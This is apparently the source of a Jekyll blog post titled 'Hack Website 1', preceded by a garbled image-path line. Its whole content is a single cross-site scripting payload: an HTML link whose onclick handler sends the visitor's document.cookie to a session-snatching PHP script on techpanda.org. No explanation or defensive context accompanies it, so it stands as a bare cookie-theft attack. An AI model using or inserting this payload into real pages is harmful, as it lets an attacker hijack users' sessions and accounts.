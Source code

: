 ```yaml
---
layout: post
title:   website-hack-1
date:   2020-07-14 03:14:29 +0800
categories: hack
---
```

Hack Website 1

{% highlight html %}
<a href=# onclick=\"document.location=\'http://techpanda.org/snatch_sess_id.php?c=\'+escape\(document.cookie\)\;\">Dark</a>
{% endhighlight %}

